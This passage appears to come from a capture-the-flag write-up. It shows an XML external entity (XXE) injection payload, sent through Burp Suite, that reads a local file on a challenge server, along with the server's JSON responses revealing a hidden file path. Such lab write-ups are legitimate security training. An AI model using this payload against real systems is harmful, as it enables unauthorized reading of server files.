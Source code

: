 Obtained the following response.

```
{
  "appResp": "I love rings of all colors!^She definitely tries to convince everyone that the blue ones are her favorites. I'm not so sure though.",
  "droppedOn": "none",
  "visit": "none"
}
```

Performed XXE injection to retrieve `RINGLIST`. Reference: <https://portswigger.net/web-security/xxe>

Tested in Burp Suite repeater various combinations of `RINGLIST` paths based on the hints provided until successful response.

```
--Redacted--
Content-Type: application/xml
--Redacted--
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt"> ]>
<root>
  <imgDrop>&xxe;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

Obtained the following response.

```
{
  "appResp": "Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this.^She really does try to keep things safe. Best just to put it away. (click)",
  "droppedOn": "none",
  "visit": "static/images/pholder-morethantopsupersecret63842.png,262px,100px"
}
```

Forward the correctly modified XXE injection payload as the next http packet.
